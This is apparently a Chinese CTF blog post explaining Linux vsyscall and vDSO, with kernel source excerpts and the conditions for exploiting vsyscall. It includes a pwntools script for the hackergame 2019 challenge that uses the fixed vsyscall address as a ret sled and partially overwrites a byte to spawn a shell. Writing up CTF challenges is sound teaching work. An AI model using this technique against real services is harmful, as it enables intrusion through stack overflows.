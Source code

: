 ```yaml
---
layout: post
tags: [pwn]
titie: "vsyscall和vdso"
date: 2022-10-29
author: wsxk
comments: true
---
```


- [vsyscall的由来<br>](#vsyscall的由来)
- [vsyscall分析<br>](#vsyscall分析)
- [vsyscall利用<br>](#vsyscall利用)
- [vdso（virtual dynamic shared object）<br>](#vdsovirtual-dynamic-shared-object)
- [references<br>](#references)

## vsyscall的由来<br>
众所周知，用户程序为了能够执行`写入文件、获取报文`等等需要内核权限才能做得功能时，往往都需要通过`系统调用` 从用户态切换到内核态，再执行相应的操作，最终返回到用户态<br>
but!!! **系统调用 用户态/内核态 的开销实在是太大了，因为CPU需要中断当前执行的任务，切换内核上下文，系统调用完毕后，切换回用户上下文** <br>
但是吧，其实有些系统调用没必要花费这么大的开销来进行。<br>
比如像`gettimeofday`这种系统调用，**它只是从内核那读取数据，而不传输数据！** 理论上不会造成内核的安全问题，因此可以直接将像`gettimeofday`（获取当前时间）的代码映射到用户空间上（这样避免了用户态-内核态的开销），而且使得获得的时间更加精确(在不需要切换到内核态时，代码运行速度快了不少，从申请获得时间 到实际打印时间 的间隔减少了)。<br>
像这种 Linux 内核在用户空间映射一个包含一些变量及一些系统调用的实现的内存页被称为`vsyscall`。<br>

## vsyscall分析<br>
其源码如下:
```c
#define VSYSCALL_ADDR (-10UL << 20) /* VSYSCALL_ADDR=0xFFFFFFFFFF600000 */

void __init map_vsyscall(void)
{
	extern char __vsyscall_page;
	unsigned long physaddr_vsyscall = __pa_symbol(&__vsyscall_page);
	if (vsyscall_mode != NONE) {
		__set_fixmap(VSYSCALL_PAGE, physaddr_vsyscall,
			     PAGE_KERNEL_VVAR);
		set_vsyscall_pgtable_user_bits(swapper_pg_dir);
	}
	BUILD_BUG_ON((unsigned long)__fix_to_virt(VSYSCALL_PAGE) !=
		     (unsigned long)VSYSCALL_ADDR);
}
```
直接看最后一行代码，`VSYSCALL_PAGE`映射的虚拟地址必须等于`0xFFFFFFFFFF600000`，任何开启了vsyscall机制的linux系统均是如此！！！<br>
vsyscall的内存也包含了3个系统调用:<br>
```c
__vsyscall_page:
	mov $__NR_gettimeofday, %rax  //获取当前时间和时区信息
	syscall
	ret

	.balign 1024, 0xcc
	mov $__NR_time, %rax //获取系统时间（秒数）
	syscall
	ret

	.balign 1024, 0xcc
	mov $__NR_getcpu, %rax //确定调用线程正在运行的 CPU 和 NUMA 节点概要
	syscall
	ret
```

## vsyscall利用<br>
vsyscall的机制不变（`0xFFFFFFFFFF600000`），只要能满足特定利用条件，即使开了aslr而且编译器保护全开也能劫持控制流。<br>
题目可以参考[hackergame 2019 无法利用的漏洞](https://github.com/ustclug/hackergame2019-writeups/blob/master/official/%E6%97%A0%E6%B3%95%E5%88%A9%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9E/README.md)
<br>
其利用条件:
> 1. 存在栈溢出
> 2. vsyscall开启
> 3. 栈上没有清除已有的 libc地址信息或者 text段地址信息

存在上面的条件时，`结合可以获得shell的函数的相对偏移（gadget或者其他）`，只需要利用`vsyscall`中的 ret指令进行滑栈，滑到本来就是libc或者text段的位置（覆盖低字节，可以是爆破），最后执行获得shell的函数

常见payload: （hackergame 2019 无法利用的漏洞 exp）
```python
#!/usr/bin/env python
# encoding: utf-8
from pwn import *
import random, string
from hashlib import sha256
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
debug = 1

if debug:
    io = process('./impossible')
else:
    io = remote("127.0.0.1", 10001)

io.recvuntil("Hack me please!\n")
gdb.attach(io.pid)
vsyscall = 0xffffffffff600000
io.interactive()
io.send(p64(vsyscall)*30+'\x6b')
io.recv()
io.sendline('/bin/sh')
io.sendline('cat flag')
io.interactive()
```

## vdso（virtual dynamic shared object）<br>
虚拟动态链接库（vdso）是vsyscall的替代方案。<br>
因为vsyscall的基地址不变，内核把那些系统调用放到vdso里面，然后用户程序在启动的时候通过动态链接操作，把这个vdso链到自己的内存空间中来。动态链接保证了vdso每次所在的地址都不一样，所以不太容易被利用，而且可以支持数量较多的系统调用。<br>

`关于vdso的利用，暂时还没遇到，先搁置一下~`


## references<br>
[https://github.com/ustclug/hackergame2019-writeups/blob/master/official/%E6%97%A0%E6%B3%95%E5%88%A9%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9E/README.md](https://github.com/ustclug/hackergame2019-writeups/blob/master/official/%E6%97%A0%E6%B3%95%E5%88%A9%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9E/README.md)<br>
[https://www.cnblogs.com/luoleqi/p/13579478.html](https://www.cnblogs.com/luoleqi/p/13579478.html)<br>
[https://marvinsblog.net/post/2016-03-07-lkd-notes-vsyscall-vdso/](https://marvinsblog.net/post/2016-03-07-lkd-notes-vsyscall-vdso/)<br>